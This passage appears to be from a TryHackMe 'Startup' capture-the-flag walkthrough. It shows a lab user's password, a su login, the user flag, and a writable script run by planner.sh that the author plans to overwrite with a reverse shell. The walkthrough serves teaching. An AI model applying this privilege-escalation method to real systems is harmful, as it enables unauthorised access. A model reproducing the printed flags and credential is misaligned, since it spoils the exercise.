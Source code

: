 * The password for the `lennie` user is `c4ntg3t3n0ughsp1c3`.

```
www-data@startup:/$ su lennie
Password: 
lennie@startup:/$ 
```

* We can now go to `/home/lennie` and get the flag.

```
lennie@startup:/$ cd /home/lennie/
lennie@startup:~$ ls
Documents  scripts  user.txt
lennie@startup:~$ cat user.txt 
THM{03ce3d619b80ccbfb3b7fc81e46c0e79}
```

### Answer

```
THM{03ce3d619b80ccbfb3b7fc81e46c0e79}
```

####

### Question

> What are the contents of root.txt?

* Let's check what's inside the `scripts/` directory.

```
lennie@startup:~$ cd scripts/
lennie@startup:~/scripts$ ls
planner.sh  startup_list.txt
```

* We can check what the `planner.sh` file is doing using `cat`.

```
lennie@startup:~/scripts$ cat planner.sh 
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

* We can see that it execute the `/etc/print.sh` file.
* Let's check that file out.

```
lennie@startup:~/scripts$ ls -la /etc/ | grep "print.sh"
-rwx------  1 lennie lennie    25 Nov 12  2020 print.sh
```

* So we can execute the `print.sh` file as `lennie`.
* But before that let's modify it to get a reverse shell.
* We can get a bash reverse shell from Revshells.com.
